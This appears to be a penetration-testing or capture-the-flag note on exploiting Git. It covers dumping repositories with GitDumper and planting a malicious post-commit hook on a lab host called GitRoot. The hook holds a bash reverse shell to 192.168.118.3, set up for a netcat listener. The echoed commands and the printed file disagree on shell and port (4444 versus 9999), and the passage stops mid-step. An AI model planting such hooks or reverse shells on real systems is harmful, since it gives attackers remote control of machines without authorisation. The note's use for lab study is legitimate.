 ```yaml
---
tags:
  - Exploitation
  - FileTypesAndData
---
```


# Guide

1. If a Git user is found and Git is installed, try `git log -p`
2. Use [GitDumper](https://github.com/internetwache/GitTools/tree/master/Dumper) to extract a repository
	1. View the largest file first
	2. Search commits messages
# Exploiting Post-Commit

1. Create a post-commit file with a bash reverse shell

```
beth@GitRoot:~$ cd ~
beth@GitRoot:~$ mkdir -p .git/hooks && cd .git/hooks
beth@GitRoot:~/.git/hooks$ echo '#!/bin/bash' > post-commit
beth@GitRoot:~/.git/hooks$ echo '/usr/bin/bash -i >& /dev/tcp/192.168.118.3/4444 0>&1' >> post-commit
beth@GitRoot:~/.git/hooks$ cat post-commit
#!/bin/sh
/usr/bin/sh -i >& /dev/tcp/192.168.118.3/9999 0>&1
beth@GitRoot:~/.git/hooks$ chmod 777 post-commit
beth@GitRoot:~/.git/hooks$
```
2. Start a netcat listener on port 4444. 
3. Compress the .git/ contents into a zip file as requested and copy it to the directory which is being uncompressed and committed:
